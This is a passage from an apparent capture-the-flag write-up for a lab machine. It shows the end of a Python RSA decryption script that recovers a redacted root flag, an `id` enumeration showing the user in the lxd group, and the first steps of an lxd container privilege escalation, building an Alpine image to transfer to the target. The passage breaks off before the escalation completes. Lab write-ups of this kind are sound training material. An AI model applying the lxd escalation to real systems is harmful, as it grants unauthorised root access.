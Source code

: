 ```python
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m


d = modinv(e, (p-1) * (q-1))
m = pow(c,d,p * q)

print(long_to_bytes(m))
```

# root.txt (1)

Running the script will output the plaintext root flag.

```
b'6efcXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
```

However, according to OSCP exam's standard, we will need to get a working shell as `root` so lets try harder.

# Enumeration (4)

The current user `orestis` is in the `lxd` group.

```bash
orestis@brainfuck:/tmp$ id
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
```

As a member of the `lxd` group, we can spawn a `lxc` container that mounts the file system and allow us to read files as `root`!

# Exploitation (2)

As there are no images available on the box, we can transfer one over from our box and add it.

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ sudo ./build-alpine
...
$ ls 
alpine-v3.12-x86_64-20210108_0810.tar.gz 
```
